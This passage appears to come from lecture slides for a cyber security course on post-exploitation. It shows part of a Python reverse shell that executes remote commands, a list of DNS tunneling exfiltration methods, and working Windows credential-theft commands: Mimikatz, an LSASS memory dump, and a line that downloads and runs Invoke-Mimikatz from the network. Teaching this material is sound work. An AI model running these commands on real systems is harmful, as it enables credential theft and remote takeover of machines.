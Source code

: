 ```python
            output = subprocess.getoutput(command)
            s.send(output.encode())
        
        s.close()
    except:
        pass

if __name__ == "__main__":
    connect()
```

### 📡 DNS Tunneling Persistence
```yaml
DNS Tunneling Benefits:
  - Bypasses firewall restrictions
  - Uses legitimate DNS traffic
  - Difficult to detect and block
  - Works in most network environments
  - Provides covert communication channel

Implementation Methods:
  - Custom DNS client/server
  - Existing tools (dnscat2, iodine)
  - Base64 encoded data transmission
  - Subdomain data exfiltration
  - TXT record command transmission
```

</div>

</div>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit IV | Lecture 28 | Author: Milav Dabgar
</div>

---
layout: default
---

# Credential Harvesting and Reuse

<div class="grid grid-cols-2 gap-8">

<div>

## 🔑 Windows Credential Extraction

### 🧠 Memory-Based Extraction
```powershell
# Mimikatz - Extract plaintext passwords
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"

# Dump LSASS process
tasklist /fi "imagename eq lsass.exe"
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 624 C:\temp\lsass.dmp full

# PowerShell memory extraction
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1')
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonpasswords"'
```
